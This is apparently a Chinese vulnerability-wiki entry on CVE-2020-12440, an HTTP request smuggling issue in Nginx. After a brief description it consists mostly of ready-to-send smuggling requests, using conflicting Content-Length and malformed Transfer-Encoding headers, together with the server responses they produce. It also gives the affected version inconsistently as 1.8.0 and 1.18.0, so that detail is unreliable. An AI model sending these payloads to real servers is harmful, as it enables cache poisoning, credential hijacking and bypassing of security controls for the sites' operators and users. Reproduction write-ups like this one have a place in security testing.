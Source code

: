 （CVE-2020-12440）Nginx \<= 1.8.0 请求走私
==========================================

一、漏洞简介
------------

Nginx
1.18.0及之前版本中存在安全漏洞。攻击者可利用该漏洞进行缓存投毒，劫持凭证或绕过安全保护。

二、漏洞影响
------------

Nginx \<= 1.8.0

三、复现过程
------------

![1589967192.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-12440)Nginx<=1.8.0请求走私/media/rId24.jpg)

### Request

    GET /test.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 2

    GET /poc.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 15

### Response

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Fri, 01 May 2020 18:28:44 GMT
    Content-Type: text/html
    Content-Length: 33
    Last-Modified: Thu, 30 Apr 2020 14:36:32 GMT
    Connection: keep-alive
    ETag: "5eaae270-21"
    Accept-Ranges: bytes

    <html><h1>Test Page!</h1></html>
    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Fri, 01 May 2020 18:28:44 GMT
    Content-Type: text/html
    Content-Length: 15
    Last-Modified: Thu, 30 Apr 2020 14:35:41 GMT
    Connection: keep-alive
    ETag: "5eaae23d-f"
    Accept-Ranges: bytes

    NGINX PoC File

其他例子
--------

### Request（200 OK + 405 Method Not Allowed）

    GET / HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 4
    Transfer-Encoding : chunked


    46
    TRACE / HTTP/1.1
    Host:www.0-sec.org
    Content-Length:15


    kk
    0s

### Response（200 OK + 405 Method Not Allowed）

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:28:12 GMT
    Content-Type: text/html
    Content-Length: 612
    Last-Modified: Tue, 21 Apr 2020 16:08:59 GMT
    Connection: keep-alive
    ETag: "5e9f1a9b-264"
    Accept-Ranges: bytes


    <!DOCTYPE html>
    <html>
    <head>
    <title>Welcome to nginx!</title>
    <style>
        body {
            width: 35em;
            margin: 0 auto;
            font-family: Tahoma, Verdana, Arial, sans-serif;
        }
    </style>
    </head>
    <body>
    <h1>Welcome to nginx!</h1>
    <p>If you see this page, the nginx web server is successfully installed and
    working. Further configuration is required.</p>

    <p>For online documentation and support please refer to
    <a href="http://nginx.org/">nginx.org</a>.<br />
    Commercial support is available at
    <a href="http://nginx.com/">nginx.com</a>.</p>

    <p><em>Thank you for using nginx.</em></p>
    </body>
    </html>
    HTTP/1.1 405 Not Allowed
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:28:12 GMT
    Content-Type: text/html
    Content-Length: 157
    Connection: close


    <html>
    <head><title>405 Not Allowed</title></head>
    <body>
    <center><h1>405 Not Allowed</h1></center>
    <hr><center>nginx/1.18.0</center>
    </body>
    </html>

### Request（200 OK + 404 Not Found）

    GET / HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 4
    Transfer-Encoding : chunked

    46
    GET /404 HTTP/1.1
    Host:www.0-sec.org
    Content-Length:15

    kk
    0s

### Response（200 OK + 404 Not Found）

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:23:52 GMT
    Content-Type: text/html
    Content-Length: 612
    Last-Modified: Tue, 21 Apr 2020 16:08:59 GMT
    Connection: keep-alive
    ETag: "5e9f1a9b-264"
    Accept-Ranges: bytes


    <!DOCTYPE html>
    <html>
    <head>
    <title>Welcome to nginx!</title>
    <style>
        body {
            width: 35em;
            margin: 0 auto;
            font-family: Tahoma, Verdana, Arial, sans-serif;
        }
    </style>
    </head>
    <body>
    <h1>Welcome to nginx!</h1>
    <p>If you see this page, the nginx web server is successfully installed and
    working. Further configuration is required.</p>

    <p>For online documentation and support please refer to
    <a href="http://nginx.org/">nginx.org</a>.<br />
    Commercial support is available at
    <a href="http://nginx.com/">nginx.com</a>.</p>

    <p><em>Thank you for using nginx.</em></p>
    </body>
    </html>
    HTTP/1.1 404 Not Found
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:23:52 GMT
    Content-Type: text/html
    Content-Length: 153
    Connection: keep-alive


    <html>
    <head><title>404 Not Found</title></head>
    <body>
    <center><h1>404 Not Found</h1></center>
    <hr><center>nginx/1.18.0</center>
    </body>
    </html>
